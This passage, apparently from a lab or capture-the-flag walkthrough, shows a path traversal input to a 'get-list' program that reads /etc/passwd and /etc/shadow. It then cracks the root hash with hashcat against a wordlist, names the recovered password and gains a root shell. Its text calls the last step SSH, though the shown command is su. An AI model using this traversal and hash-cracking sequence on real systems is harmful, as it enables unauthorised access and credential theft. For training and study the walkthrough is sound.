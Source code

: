 ```
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
bob:x:1000:1000::/home/bob:/bin/sh
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
```

We have successfully viewed the **/etc/passwd** file.

We can follow the same process to view **/etc/shadow**.

```
$ ./get-list
Which List do you want to open? [customers/employees]: ../../etc/shadow #employees
Opening File....
root:$6$jgsanIAwx1.w9V/.$cOWVUY1EiX.hbXPY//o8vDug9rIqLuzjs6KPzz6V8RM/4nK.Z1UXacdZW2Lj2J6yK/lZRC2uLbZ/bdEtWhbJu0:19066:0:99999:7:::
mysql:!:19066:0:99999:7:::
```

Now that we can view the root user's hash, we can attempt to crack it with `hashcat`.

```
root:$6$jgsanIAwx1.w9V/.$cOWVUY1EiX.hbXPY//o8vDug9rIqLuzjs6KPzz6V8RM/4nK.Z1UXacdZW2Lj2J6yK/lZRC2uLbZ/bdEtWhbJu0:19066:0:99999:7:::
```

First, we copy the hash to a file.

```
echo "$6$jgsanIAwx1.w9V/.$cOWVUY1EiX.hbXPY//o8vDug9rIqLuzjs6KPzz6V8RM/4nK.Z1UXacdZW2Lj2J6yK/lZRC2uLbZ/bdEtWhbJu0." > hash
```

```
hashcat -m 1800 -a 0 hash $rockyou --force -o cracked
...
$6$jgsanIAwx1.w9V/.$cOWVUY1EiX.hbXPY//o8vDug9rIqLuzjs6KPzz6V8RM/4nK.Z1UXacdZW2Lj2J6yK/lZRC2uLbZ/bdEtWhbJu0.:highschoolmusical
```

The password is `highschoolmusical`. We can `SSH` in as the root user.

```
$ su
Password:
root@wheels:/home/bob# whoami
root
```
